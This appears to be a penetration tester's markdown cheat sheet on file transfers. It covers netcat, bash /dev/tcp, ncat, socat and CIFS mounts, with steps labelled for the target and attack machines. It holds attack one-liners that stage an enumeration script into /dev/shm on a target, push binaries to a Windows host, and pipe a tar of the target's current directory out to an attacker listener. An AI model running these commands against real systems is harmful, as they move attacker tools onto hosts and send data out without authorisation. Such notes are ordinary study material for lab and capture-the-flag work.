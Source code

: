 # Linux File Transfers


## Bash 

Check `mount` if /`dev/shm/` has `no exec`, this is just an example
```bash
# Use nc to serve the file
nc -lvnp 80 < LinEnum.sh
# Target machine
mount | grep shm
bash -c "cat < /dev/tcp/$IP/$PORT > /dev/shm/LinEnum.sh"
```
[Ippsec Reddish Video](https://www.youtube.com/watch?v=Yp4oxoQIBAM)

## Netcat

[[Netcat-Cheatsheet]]
```powershell
# Listener on Windows system
nc -lvnp $PORT > tranfered.exe
# Push wget.exe onto windows system
nc -nv $IP $PORT < /usr/share/windows-resources/binaries/wget.exe
```

## Ncat

Target machine
```bash
tar cf - . | ncat $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```

## Socat

Use [[Socat]], Host with:
```bash
sudo socat TCP4-LISTEN:$PORT,fork file:$filename
```
Transfer with
```powershell
socat TCP4:$IP:$PORT file:$filename,create
```


## SMB Cif-Utils

```shell
sudo mount -t cifs -o 'user=$username,password=$password' //$IP/share /mnt/sharename
```

[Kali Cif-Utils]
